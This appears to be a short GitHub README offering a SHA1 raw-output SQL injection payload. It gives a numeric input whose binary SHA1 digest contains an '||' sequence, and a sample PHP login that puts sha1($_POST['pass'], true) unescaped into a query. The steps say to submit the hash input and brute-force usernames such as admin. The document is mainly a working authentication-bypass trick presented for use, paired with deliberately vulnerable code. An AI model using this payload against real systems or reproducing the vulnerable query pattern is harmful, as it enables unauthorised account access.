 # SHA1_RAW_SQL

| Hash string                | SHA1 Hash                                     | Raw output            |Query   |Author    |
| -------------------------- |:---------------------------------------------:|:---------------------:|:------:|:--------:|
| 5651578060603509           |96009c0bafe7be05e23b0079226f7222d82fee88       |E&�ɶ��'\|\|'8�vjc\�   |'\|\|'8 |0xJohannes|


#  EXAMPLE USAGE

```php
<?php

...SOME CODE...

function escape_sql()
  {
    ...sql escape...
  }
  
$pass = sha1($_POST['pass'], true);

$log = escape_sql($_POST['log']);

$sql = "select * from tablename where password=$pass AND username=$log";

...SOME CODE...
?>
```
* The first step is to inject one of suitable hashes.
* The second move is bruteforcing the login value i.e, (admin, 4dm1n and so on)
* The final step is buying me a coffee :D [![Coffee](https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png)](buymeacoff.ee/Wo30ewVvi)
